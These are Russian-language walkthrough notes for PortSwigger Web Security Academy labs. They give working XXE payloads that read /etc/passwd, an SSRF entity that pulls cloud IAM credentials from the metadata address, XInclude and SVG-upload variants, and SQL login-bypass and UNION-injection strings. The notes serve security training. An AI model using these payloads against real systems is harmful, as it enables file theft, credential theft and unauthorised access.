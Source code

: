 1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
1)зайти на сайт, 

2)выбрать продукт, 

3)нажать *Check stock*, 

4)перехватить Post запрос через BURP 

5) после объявления xml добавить

' <!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> '

6)заменить product id число на &res; 

7)после этого просто отправить запрос и в ответе придёт /etc/passwd

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

5)после объявления xml добавить:

'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>'

6)заменить product id на &res; отправить запрос, 

7)в ответе придет latest - добавить его к адресу и получим 

'<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 'и так далее, 

n+1)в итоге получаем '<!DOCTYPE kek [ <!ENTITY res SYSTEM 

"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>', что и приведёт нас к ответу.

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

5)в *product id* вставить 
'''<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> '''

6)в ответ придёт /etc/passwd

4.

1) 2) выбрать статью 

3)нажать отправить комментариq(заполнить все поля предварительно) 

4)перехватить запрос через Burp

5)в поле для картинки вставить: 

'''<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>'''

svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)


1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

1) в графе login ввести administrator'--

2.https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

2)заменяем NULL по очереди на 'HmnfQ2' - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

3)второй столбец оказался верным - выводится результат